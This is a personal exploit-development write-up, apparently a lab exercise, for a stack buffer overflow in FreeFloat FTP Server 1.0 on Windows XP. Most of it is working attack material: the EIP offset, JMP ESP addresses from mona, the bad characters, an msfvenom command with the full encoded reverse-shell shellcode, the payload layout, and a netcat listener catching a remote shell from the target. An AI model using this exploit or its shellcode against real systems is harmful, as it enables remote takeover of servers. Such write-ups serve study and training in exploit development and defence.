




# FreeFloat FTP 1.0
References: 
- https://www.exploit-db.com/exploits/17546/

## Identify vulnerability
My process for investigating the multiple vulnerabilities in this server (with no pre-done research prior) was:
1. Search the binary for strings that would identify the user has been prompted for input.
2. Look at the function and determine where the input was being read in. This meant following a string of functions backwards to when input was first being recieved from the TCP socket. This ended up leading me to what seems to be the "main" function.

```c
undefined4 UndefinedFunction_00402fc0(undefined4 *param_1)

{
  undefined4 uVar1;
  DWORD DVar2;
  int iVar3;
  undefined4 uStack328;
  undefined4 uStack324;
  ushort auStack320 [30];
  undefined4 uStack260;
  undefined4 uStack256;
  
  uVar1 = *param_1;
  wsprintfW((LPWSTR)auStack320,u_FreeFloat_Ftp_Server__Version__d_0040a59c,DAT_0040a728 / 100,
            DAT_0040a728 % 100);
  getInput(param_1,0xdc,auStack320);
  if (DAT_0040d178 != (HANDLE)0x0) {
    while (DVar2 = WaitForSingleObject(DAT_0040d178,0), DVar2 != 0) {
      uStack328 = 1;
      uStack260 = 1;
      uStack324 = 0;
      uStack256 = uVar1;
      iVar3 = Ordinal_18(0,&uStack260,0,0,&uStack328);
      if (((iVar3 != 0) &&
          ((iVar3 = handleInput1(param_1), iVar3 == 0 || (iVar3 = handleInput2(param_1), iVar3 == 0)
           ))) || (DAT_0040d178 == (HANDLE)0x0)) break;
    }
  }
  Ordinal_3(uVar1);
  if (param_1 != (undefined4 *)0x0) {
    FUN_00401dd0((int)param_1);
    FUN_004037c0((undefined *)param_1);
  }
  return 1;
}
```
The function named getInput() is where the stack-based buffer overflow in this application stems from. It is called throughout the program with different parameters:
- The first parameter is the variable to copy data into.
- The second parameter is the amount to copy (in this instance, 220 characters).
- The third parameter is the file descriptor (probably a TCP socket in this case) to read the data from.
  
  
  
This is where my investigation gets a little fuzzy (lol) because the getInput function is a bit too messy and hard to follow in both decompilation and disassembly. Needless to say, fuzzing input to this application causes a number of segfaults in different areas handled by getInput suggesting a buffer overflow is possible. One place this function is called is when getting the user's username.

## Exploitation

### 1. Control EIP
With the the server running through Immunity, send over some cyclic input to get the crash location. The application crashes at `0x63616168`, which is after 228 characters.

  

```bash
┌──(kali㉿kali)-[]-[~/Documents/bof]
└─$ pwn cyclic -l 0x63616168
228
```
Sending some more input from here shows another 2 characters are required, bringing the EIP offset to 230.

  

### 2. Find instruction
The go-to instruction judging by the state of the registers is going to be JMP ESP.
```shell
0BADF00D   [+] Command used:
0BADF00D   !mona modules

           ---------- Mona command started on 2021-04-04 10:10:24 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x7c9c0000 | 0x7d1d7000 | 0x00817000 | False  | True    | False |  False   | True   | 6.00.2900.5512 [SHELL32.dll] (C:\WINDOWS\system32\SHELL32.dll)
0BADF00D    0x77c10000 | 0x77c68000 | 0x00058000 | False  | True    | False |  False   | True   | 7.0.2600.5512 [msvcrt.dll] (C:\WINDOWS\system32\msvcrt.dll)
0BADF00D    0x71ab0000 | 0x71ac7000 | 0x00017000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WS2_32.dll] (C:\WINDOWS\system32\WS2_32.dll)
0BADF00D    0x71a50000 | 0x71a8f000 | 0x0003f000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [mswsock.dll] (C:\WINDOWS\system32\mswsock.dll)
0BADF00D    0x00400000 | 0x0040f000 | 0x0000f000 | False  | False   | False |  False   | False  | -1.0- [FTPServer.exe] (C:\Documents and Settings\Administrator\Desktop\FTPServer.exe)
0BADF00D    0x77f10000 | 0x77f59000 | 0x00049000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [GDI32.dll] (C:\WINDOWS\system32\GDI32.dll)
0BADF00D    0x77dd0000 | 0x77e6b000 | 0x0009b000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ADVAPI32.dll] (C:\WINDOWS\system32\ADVAPI32.dll)
0BADF00D    0x7c800000 | 0x7c8f6000 | 0x000f6000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [kernel32.dll] (C:\WINDOWS\system32\kernel32.dll)
0BADF00D    0x5ad70000 | 0x5ada8000 | 0x00038000 | False  | True    | False |  False   | True   | 6.00.2900.5512 [uxtheme.dll] (C:\WINDOWS\system32\uxtheme.dll)
0BADF00D    0x77fe0000 | 0x77ff1000 | 0x00011000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [Secur32.dll] (C:\WINDOWS\system32\Secur32.dll)
0BADF00D    0x7c900000 | 0x7c9af000 | 0x000af000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ntdll.dll] (C:\WINDOWS\system32\ntdll.dll)
0BADF00D    0x71aa0000 | 0x71aa8000 | 0x00008000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WS2HELP.dll] (C:\WINDOWS\system32\WS2HELP.dll)
0BADF00D    0x77e70000 | 0x77f02000 | 0x00092000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [RPCRT4.dll] (C:\WINDOWS\system32\RPCRT4.dll)
0BADF00D    0x77f60000 | 0x77fd6000 | 0x00076000 | False  | True    | False |  False   | True   | 6.00.2900.5512 [SHLWAPI.dll] (C:\WINDOWS\system32\SHLWAPI.dll)
0BADF00D    0x662b0000 | 0x66308000 | 0x00058000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [hnetcfg.dll] (C:\WINDOWS\system32\hnetcfg.dll)
0BADF00D    0x7e410000 | 0x7e4a1000 | 0x00091000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [USER32.dll] (C:\WINDOWS\system32\USER32.dll)
0BADF00D    0x773d0000 | 0x774d3000 | 0x00103000 | False  | True    | False |  False   | True   | 6.0 [comctl32.dll] (C:\WINDOWS\WinSxS\x86_Microsoft.Windows.Common-Controls_6595b64144ccf1df_6.0.2600.5512_x-ww_35d4ce83\comctl32.dll)
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:00.390000

```
These libraries are all candidates if they contain a JMP ESP instruction. There is not much rebase, ASLR or NXCompat.
```
0BADF00D   [+] Command used:
0BADF00D   !mona find -s "\xFF\xE4"

           ---------- Mona command started on 2021-04-04 10:14:15 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : *
0BADF00D       - Treating search pattern as bin
0BADF00D   [+] Searching from 0x00000000 to 0x7fffffff
0BADF00D   [+] Preparing output file 'find.txt'
0BADF00D       - (Re)setting logfile find.txt
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Writing results to find.txt
0BADF00D       - Number of pointers of type '"\xFF\xE4"' : 2304
0BADF00D   [+] Results :
77FAB227     0x77fab227 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [SHLWAPI.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v6.00.2900.5512 (C:\WINDOWS\system32\SHLWAPI.dll)
77E8560A     0x77e8560a : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [RPCRT4.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\RPCRT4.dll)
77E9025B     0x77e9025b : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [RPCRT4.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\RPCRT4.dll)
004114C6     0x004114c6 : "\xFF\xE4" | startnull {PAGE_EXECUTE_READ}
7CBD41FB     0x7cbd41fb : "\xFF\xE4" |  {PAGE_WRITECOPY} [SHELL32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v6.00.2900.5512 (C:\WINDOWS\system32\SHELL32.dll)
7C86467B     0x7c86467b : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\kernel32.dll)
004E4862     0x004e4862 : "\xFF\xE4" | startnull,asciiprint,ascii,alphanum {PAGE_READONLY}
004E4CC2     0x004e4cc2 : "\xFF\xE4" | startnull {PAGE_READONLY}
004E5462     0x004e5462 : "\xFF\xE4" | startnull,asciiprint,ascii,alphanum {PAGE_READONLY}
004E5862     0x004e5862 : "\xFF\xE4" | startnull,asciiprint,ascii,alphanum {PAGE_READONLY}
004E5972     0x004e5972 : "\xFF\xE4" | startnull,asciiprint,ascii,alphanum {PAGE_READONLY}
004E5FD2     0x004e5fd2 : "\xFF\xE4" | startnull {PAGE_READONLY}
662EB24F     0x662eb24f : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [hnetcfg.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\hnetcfg.dll)
77E4CDE9     0x77e4cde9 : "\xFF\xE4" |  {PAGE_READONLY} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77E5D1C6     0x77e5d1c6 : "\xFF\xE4" |  {PAGE_READONLY} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77F31D2F     0x77f31d2f : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [GDI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\GDI32.dll)
662F8EAB     0x662f8eab : "\xFF\xE4" |  {PAGE_READONLY} [hnetcfg.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\hnetcfg.dll)
662FB5A7     0x662fb5a7 : "\xFF\xE4" |  {PAGE_READONLY} [hnetcfg.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\hnetcfg.dll)
7E429353     0x7e429353 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)
7E4456F7     0x7e4456f7 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open find.txt...
0BADF00D       Found a total of 2304 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.562000
```
In this instance, there are loads of instructions I could use. The top address will do nicely: `0x77fab227`.  
I send over a test payload:  
[OFFSET][JMP ESP][INTERRUPTS]

  

The interrupts get hit.

### 3. Find bad characters
Next is to find bad characters. This is done by sending across: [OFFSET][JMP ESP][CHARACTERS] until the entire set makes it in. In this case the bad characters are found to be: `00`, `0a` and `0d`.

### 4. Generate shellcode
```bash
┌──(kali㉿kali)-[]-[~/Documents/bof]
└─$ msfvenom --arch x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.34.138 LPORT=9999 EXITFUNC=thread -b '\x00\x0a\x0d' --var-name shellcode -f python
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1965 bytes
shellcode =  b""
shellcode += b"\xdb\xd5\xba\xb8\x8a\x10\x40\xd9\x74\x24\xf4"
shellcode += b"\x5d\x31\xc9\xb1\x52\x83\xed\xfc\x31\x55\x13"
shellcode += b"\x03\xed\x99\xf2\xb5\xf1\x76\x70\x35\x09\x87"
shellcode += b"\x15\xbf\xec\xb6\x15\xdb\x65\xe8\xa5\xaf\x2b"
shellcode += b"\x05\x4d\xfd\xdf\x9e\x23\x2a\xd0\x17\x89\x0c"
shellcode += b"\xdf\xa8\xa2\x6d\x7e\x2b\xb9\xa1\xa0\x12\x72"
shellcode += b"\xb4\xa1\x53\x6f\x35\xf3\x0c\xfb\xe8\xe3\x39"
shellcode += b"\xb1\x30\x88\x72\x57\x31\x6d\xc2\x56\x10\x20"
shellcode += b"\x58\x01\xb2\xc3\x8d\x39\xfb\xdb\xd2\x04\xb5"
shellcode += b"\x50\x20\xf2\x44\xb0\x78\xfb\xeb\xfd\xb4\x0e"
shellcode += b"\xf5\x3a\x72\xf1\x80\x32\x80\x8c\x92\x81\xfa"
shellcode += b"\x4a\x16\x11\x5c\x18\x80\xfd\x5c\xcd\x57\x76"
shellcode += b"\x52\xba\x1c\xd0\x77\x3d\xf0\x6b\x83\xb6\xf7"
shellcode += b"\xbb\x05\x8c\xd3\x1f\x4d\x56\x7d\x06\x2b\x39"
shellcode += b"\x82\x58\x94\xe6\x26\x13\x39\xf2\x5a\x7e\x56"
shellcode += b"\x37\x57\x80\xa6\x5f\xe0\xf3\x94\xc0\x5a\x9b"
shellcode += b"\x94\x89\x44\x5c\xda\xa3\x31\xf2\x25\x4c\x42"
shellcode += b"\xdb\xe1\x18\x12\x73\xc3\x20\xf9\x83\xec\xf4"
shellcode += b"\xae\xd3\x42\xa7\x0e\x83\x22\x17\xe7\xc9\xac"
shellcode += b"\x48\x17\xf2\x66\xe1\xb2\x09\xe1\xce\xeb\x33"
shellcode += b"\x7b\xa6\xe9\x33\x5c\x38\x67\xd5\xc8\x56\x21"
shellcode += b"\x4e\x65\xce\x68\x04\x14\x0f\xa7\x61\x16\x9b"
shellcode += b"\x44\x96\xd9\x6c\x20\x84\x8e\x9c\x7f\xf6\x19"
shellcode += b"\xa2\x55\x9e\xc6\x31\x32\x5e\x80\x29\xed\x09"
shellcode += b"\xc5\x9c\xe4\xdf\xfb\x87\x5e\xfd\x01\x51\x98"
shellcode += b"\x45\xde\xa2\x27\x44\x93\x9f\x03\x56\x6d\x1f"
shellcode += b"\x08\x02\x21\x76\xc6\xfc\x87\x20\xa8\x56\x5e"
shellcode += b"\x9e\x62\x3e\x27\xec\xb4\x38\x28\x39\x43\xa4"
shellcode += b"\x99\x94\x12\xdb\x16\x71\x93\xa4\x4a\xe1\x5c"
shellcode += b"\x7f\xcf\x01\xbf\x55\x3a\xaa\x66\x3c\x87\xb7"
shellcode += b"\x98\xeb\xc4\xc1\x1a\x19\xb5\x35\x02\x68\xb0"
shellcode += b"\x72\x84\x81\xc8\xeb\x61\xa5\x7f\x0b\xa0"
```
Note the usage of EXITFUNC to avoid a server crash.  

Exploit is constructed as [OFFSET][JUMP ESP][NOPSLED][SHELLCODE] as seen below.
```python
payload = 'A' * 230 + jmpesp + '\x90' * 32 + shellcode
```

### 5. Exploit
Run the exploit.
```bash
┌──(kali㉿kali)-[]-[~/Documents/bof]
└─$ ./exploit.py                                                                                                                                                       
[+] Opening connection to 192.168.34.148 on port 21: Done
[*] 220 FreeFloat Ftp Server (Version 1.00).
[*] 331 Password required for AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'��w���������������������������������պ��\x10�t$�]1ɱR���1U\x13���vp5    �\x15\xbf\xbd�\x15\xbf\xbde襯+\x05�ߞ#*�\x17\xbf\xbd
    ߨ�m~+���\x12��So5�
    ���9�0�rW1m�V\x10X�Í9���\x04\xbf\xbdP �D�x����\x0e\xbf\xbd:r�2�����J\x16\\x18\xbf\xbd�\�WvR�
    �w=�k����\x05\xbf\xbd�\x1fV}\x069�X��&\x13�Z~V7W��_���Z���D\ڣ1�%LB��\x18s� ������B�\x0e\xbf\xbd"\x17\xbf\xbdɬH\x17\xbf\xbdf�    ���3{��3\8g��V!Ne�h\x04\x0f\xbf\xbda\x16\xbf\xbdD��l ���\x7f�\x19\xbf\xbdU��12^�)�    Ŝ����^�Q�Eޢ'D��\x03m\x1f!v��� �V^�b>'�8(9C���\x12\xbf\xbd\x16��J�\\x7f��U:�f<������\x1a�5h�r����a�\x7f
    �.
```
Get a shell.
```shell
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999                                                                                                                                                                                                                                    1 ⨯
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.148] 1056
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.34.148
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.34.2
```